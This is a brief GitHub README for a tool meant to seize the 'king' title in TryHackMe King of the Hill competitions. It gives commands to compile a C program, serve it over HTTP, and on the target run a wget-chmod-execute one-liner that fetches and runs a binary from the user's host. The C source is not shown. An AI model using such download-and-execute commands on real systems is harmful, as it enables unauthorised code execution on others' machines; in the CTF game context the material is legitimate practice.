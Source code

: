 # King_TryHackMeKOTH

A script to gain king title in KoTH

## Mode of use 

```bash
git clone https://github.com/CTFcrozone/King_TryHackMeKOTH
```

```bash
cd King_TryHackMeKOTH && gcc King.c -o vk && python3 -m http.server 80
```

## In KoTH Machine

```bash
wget http://youripvpn/vk && chmod +x vk && ./vk
```

<b>DO NOT FORGET TO CHANGE IPS, NICKNAMES ETC. TO YOURS IN THE CODE!!</b>

